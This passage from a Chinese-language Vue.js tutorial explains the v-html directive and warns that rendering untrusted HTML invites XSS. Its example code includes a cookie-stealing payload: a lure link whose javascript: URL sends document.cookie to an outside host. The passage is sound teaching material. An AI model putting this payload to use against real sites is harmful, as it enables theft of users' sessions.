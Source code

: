 ```html
```



### 2 v-html 指令

1 作用：向指定节点中渲染包含html结构的内容。



2 与插值语法的区别：
(1) v-html会替换掉节点中所有的内容，{{xx}}则不会。
(2) v-html可以识别html结构。



3 严重注意：v-html有安全性问题！！！！
(1) 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
(2) 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```



### 3 v-cloak指令
